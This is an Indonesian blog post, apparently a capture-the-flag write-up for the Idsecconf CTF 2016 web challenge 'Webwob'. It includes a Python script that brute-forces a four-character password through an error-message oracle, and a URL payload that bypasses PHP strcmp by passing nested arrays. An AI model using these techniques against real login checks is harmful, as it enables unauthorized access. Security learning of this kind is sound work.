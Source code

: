 ```yaml
---
layout: post
title: "Writeup Idsecconf CTF 2016 : Webwob - 100"
description: "Writeup Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
date: 2016-08-29
category: Web Exploitation
tags: [idsecconf]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://128.199.96.39/`

### Solusi :

Kita di berikan website dengan di tampilkan source code nya dan terlihat jelas flag akan muncul ketika
variable `$ok` bernilai `True`. 

pertama saya mencoba memasukan parameter password 4x seperti ini
`http://128.199.96.39/?password[]=awd&password[]=awd&password[]=awd&password[]=awd`
namun tidak berhasil.

kemudian karena kita mengetahui panjang karakter password hanya 4 maka kita buat script untuk bruteforce

```python
import mechanize
import itertools
import string

br = mechanize.Browser()
url = "http://128.199.96.39/?password={0}{1}{2}{3}"
response = br.open(url)

cnt = 0
pat = "invalid {}Invalid"
acc = string.ascii_letters + "0123456789!@#$%^{}()[]"
combinations = itertools.permutations(acc,cnt+1)
res = ""
a = "x"
b = "x"
c = "x"
d = "x"
bb = "x"
cc = "x"
dd = "x"

while True:
    combinations = itertools.permutations(acc,1)
    for x in combinations:
        x = "".join(x)
        if a == "x":
            aa = x
        elif b == "x":
            bb = x
        elif c == "x":
            cc = x
        elif d == "x":
            dd = x
            
        response = br.open(url.format(aa,bb,cc,dd))
        #print url.format(aa,bb,cc,dd)
        cek = response.read().split("<")[0]
        #sprint cek
        if "flag" in cek:
            print cek
            break
        #print x
        
        if pat.format(cnt+1) in cek:
            cnt += 1
            if a == "x":
                a = x
            elif b == "x":
                b = x
            elif c == "x":
                c = x
            elif d == "x":
                d = x
            #print x
```

![Webwob Flag](/images/webwob_flag.png)

scriptnya agak berantakan disitu tujuan kita untuk dapat flagnya tapi :D

setelah membaca writeup dari [Cyber Security IPB](https://drive.google.com/drive/folders/0B73v7q0VGLSEWlRUbU96YXlsNU0) ternyata cara bypass vulnerability Strcmp di sini adalah seperti ini 
`http://128.199.96.39/?password[][]=&password[][]=&password[][]=&password[][]=`
karena input kita awalnya adalah array karena di dalam script melakukan pengecekan 
berdasarkan tiap index maka jika tiap index yang akan di cek adalah array maka akan
membuahkan hasil True.
